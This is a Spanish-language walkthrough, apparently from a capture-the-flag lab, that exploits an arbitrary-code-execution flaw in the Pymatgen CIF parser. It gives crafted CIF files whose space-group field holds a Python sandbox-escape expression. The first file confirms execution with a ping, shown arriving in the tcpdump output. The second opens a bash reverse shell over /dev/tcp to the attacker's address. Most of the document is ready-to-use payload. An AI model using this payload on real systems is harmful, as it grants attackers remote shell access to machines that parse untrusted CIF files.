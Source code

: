 # Exploración archivo CIF
Los archivos **CIF** Tienen una sintaxis similar a archivos de texto plano con etiquetas y bucles que describen propiedades.

con el siguiente archivo CIF se realizara un ping a la ip atacante:
```text
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.16.2");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

 y por el otro lado se realizara un escucha con tcpump:
```bash
tcpdump -i tun0 icmp -n

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:31:25.264175 IP 10.10.11.38 > 10.10.16.2: ICMP echo request, id 2, seq 1, length 64
13:31:25.264194 IP 10.10.16.2 > 10.10.11.38: ICMP echo reply, id 2, seq 1, length 64

```

# Explotación archivo CIF
En este caso, se reemplaza el comando de prueba (`ping`) por una instrucción más poderosa que abre una conexión inversa desde el servidor hacia nuestra máquina atacante:
```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.2/443 0>&1'
```

El contenido del archivo CIF quedaría así:
```text
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.16.2/443 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
